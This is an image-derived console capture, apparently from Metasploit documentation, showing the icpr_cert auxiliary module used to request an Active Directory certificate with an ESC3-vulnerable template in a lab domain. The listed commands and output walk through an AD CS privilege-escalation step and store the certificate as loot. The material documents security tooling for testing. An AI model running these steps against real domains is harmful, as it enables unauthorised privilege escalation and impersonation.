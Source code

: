 ```
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framew
                                             ork/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        The Windows domain to use for authentication
   SMBPass                         no        The password for the specified username
   SMBUser                         no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template1
CERT_TEMPLATE => ESC3-Template1
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
